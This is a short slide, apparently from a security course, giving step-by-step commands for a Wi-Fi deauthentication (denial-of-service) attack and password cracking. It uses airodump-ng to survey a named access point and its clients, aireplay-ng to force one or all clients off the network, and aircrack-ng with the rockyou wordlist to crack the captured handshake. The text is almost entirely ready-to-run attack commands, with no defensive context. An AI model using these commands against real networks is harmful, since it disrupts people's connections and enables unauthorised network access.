

# Deauthentication Attack or DoS Attack
STEPS:
airodump-ng   wlan0mon   --bssid   D4:6E:0E:4B:57:B2  --channel 10 (N/w details with Clients List)
aireplay-ng   -0  10   -a  {ACCESS POINT BSSID}  -c  {TARGET MAC ADDRESS}  wlan0mon
 aireplay-ng   -0   10   -a{Access point} wlan0mon  ---> Deauthenticate all clients that are connected.

airodump-ng   wlan0mon   --bssid   D4:6E:0E:4B:57:B2  --channel 10   -w   capture
aircrack-ng    root/capture01.cap  -w   /usr/share/wordlists/rockyou.txt.gz